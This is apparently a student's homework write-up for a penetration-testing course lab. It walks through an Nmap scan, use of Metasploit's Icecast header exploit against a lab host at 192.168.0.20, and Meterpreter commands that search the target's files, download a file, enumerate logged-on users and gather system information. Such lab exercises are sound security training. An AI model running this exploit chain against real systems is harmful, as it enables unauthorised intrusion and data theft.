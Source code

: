 # **Brian C Williams 17-Penetration II Homework** # 

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

1. Run the Nmap command that performs a service and version scan against the target.

	**Answer: nmap -sV 192.168.0.20**

	![Image of question1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast 	      	 exploits:

	Run the SearchSploit commands to show available Icecast exploits.

	**Answer: searchsploit icecast windows**

	![Image of q2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q2.PNG)

3. Now that we know which exploits are available to us, let's start Metasploit:

	Run the command that starts Metasploit:
	
	**Answer: msfconsole -u** 
	        **msfconsole** 

	![Image of q3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q3.PNG)

4. Search for the Icecast module and load it for use.
	Run the command to search for the Icecast module:

	**Answer: search icecast**

	![Image of q4](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q4.PNG)

5. Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

        **Answer: use exploit/windows/http/icecast_header or use 0**
	![Image of q4](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q4.PNG)



Set the RHOST to the target machine.


Run the command that sets the RHOST:

Answer: set RHOST 192.168.0.20





Run the Icecast exploit.


Run the command that runs the Icecast exploit.

Answer: run or exploit



Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f  *secretfile.txt


You should now have a Meterpreter session open.


Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe.txt



Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt



You can also use Meterpreter's local exploit suggester to find possible exploits.

run post/multi/recon/local_exploit_suggester

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users

		
		

B. Open a Meterpreter shell and gather system information for the target.

Answer: shell 
		systeminfo
		
		

C. Run the command that displays the target's computer system information:

Answer: sysinfo

